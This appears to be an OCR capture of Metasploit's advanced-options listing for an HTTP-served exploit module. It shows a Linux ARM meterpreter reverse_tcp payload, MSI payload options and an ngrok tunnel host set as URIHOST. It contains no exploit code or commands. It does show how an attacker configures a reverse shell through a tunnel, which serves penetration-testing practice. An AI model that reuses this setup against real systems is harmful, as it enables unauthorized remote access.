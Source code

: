 ```shell
   ListenerBindAddress                                            no        The specific IP address to bind to if different from SRVHOST
   ListenerBindPort                                               no        The port to bind to if different from SRVPORT
   ListenerComm                                                   no        The specific communication channel to use for this service
   MSI::Custom                                                    no        Use custom msi instead of automatically generating a payload msi
   MSI::EICAR              false                                  no        Generate an EICAR file instead of regular payload msi
   MSI::Path                                                      no        The directory in which to look for the msi template
   MSI::Template                                                  no        The msi template file name
   MSI::UAC                false                                  no        Create an MSI with a UAC prompt (elevation to SYSTEM if accepted)
   SSLCipher                                                      no        String for SSL cipher spec - "DHE-RSA-AES256-SHA" or "ADH"
   SSLCompression          false                                  no        Enable SSL/TLS-level compression
   SSLVersion              Auto                                   yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL23 are
                                                                             auto-negotiate) (Accepted: Auto, TLS, SSL23, SSL3, TLS1, TLS1.1,
                                                                            TLS1.2)
   SendRobots              false                                  no        Return a robots.txt file if asked for one
   URIHOST                 64db913882c5.eu.ngrok.io               no        Host to use in URI (useful for tunnels)
   URIPORT                 80                                     no        Port to use in URI (useful for tunnels)
   UserAgent               Mozilla/5.0 (Windows NT 10.0; Win64;   no        The User-Agent header to use for all requests
                           x64) AppleWebKit/537.36 (KHTML, like
                           Gecko) Chrome/98.0.4758.81 Safari/537
                           .36
   VERBOSE                 false                                  no        Enable detailed status messages
   WORKSPACE                                                      no        Specify the workspace for this module
   WfsDelay                5                                      no        Additional delay in seconds to wait for a session


Payload advanced options (linux/armle/meterpreter/reverse_tcp):

   Name                         Current Setting  Required  Description
   ----                         ---------------  --------  -----------
   AutoLoadStdapi               true             yes       Automatically load the Stdapi extension
   AutoRunScript                                 no        A script to run automatically on session creation.
   AutoSystemInfo               true             yes       Automatically capture system information on initialization.
   AutoUnhookProcess            false            yes       Automatically load the unhook extension and unhook the process
   AutoVerifySessionTimeout     30               no        Timeout period to wait for session validation to occur, in seconds
   EnableStageEncoding          false            no        Encode the second stage payload
   EnableUnicodeEncoding        false            yes       Automatically encode UTF-8 strings as hexadecimal
   HandlerSSLCert                                no        Path to a SSL certificate in unified PEM format, ignored for HTTP transports
```